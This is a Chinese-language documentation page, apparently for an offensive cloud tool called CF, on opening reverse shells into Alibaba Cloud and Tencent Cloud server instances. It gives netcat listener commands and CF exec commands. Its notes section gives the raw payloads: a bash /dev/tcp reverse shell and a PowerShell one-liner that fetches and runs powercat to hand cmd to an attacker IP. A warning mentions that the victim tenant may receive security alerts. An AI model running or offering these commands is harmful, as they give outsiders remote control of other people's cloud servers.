 ```yaml
---
title: 反弹 Shell
---
```


## 在阿里云上反弹 Shell

首先在自己的主机上开启监听

```bash
nc -lvvp 4444
```

接着在 CF 中执行反弹 Shell 命令

> `--lhost` 参数配置为自己监听主机的 IP，`--lport` 参数配置为自己的监听端口，`-i` 设置要反弹 Shell 的实例 ID（如果未指定具体的实例，则 CF 会提醒是否是选择全部实例还是某个实例。）

```bash
cf alibaba ecs exec --lhost 123.123.123.123 --lport 4444 -i i-abcdefghijklmn
```

## 在腾讯云上反弹 Shell

### 云服务器

首先在自己的主机上开启监听

```bash
nc -lvvp 4444
```

接着在 CF 中执行反弹 Shell 命令

```bash
cf tencent cvm exec --lhost 123.123.123.123 --lport 4444 -i i-abcdefghijklmn
```

### 轻量应用服务器

首先在自己的主机上开启监听

```bash
nc -lvvp 4444
```

接着在 CF 中执行反弹 Shell 命令

```bash
cf tencent lh exec --lhost 123.123.123.123 --lport 4444 -i i-abcdefghijklmn
```

## 备注

在 CF 中使用的 Linux 反弹 Shell 如下

```bash
bash -i >& /dev/tcp/123.123.123.123/4444 0>&1
```

在 CF 中使用的 Windows 反弹 Shell 如下


```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://ghproxy.com/raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 123.123.123.123 -p 4444 -e cmd
```

::: warning 注意

* 在阿里云下反弹 Shell ，目标租户可能会收到阿里云的云盾告警消息，所以此操作需谨慎。
* 由于 CF 等待命令执行结果的默认时间是 60 秒，所以在超过 60 秒后，CF 会提示命令执行超时，从而退出程序。

:::



<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年9月7日"
    }
  }
</script>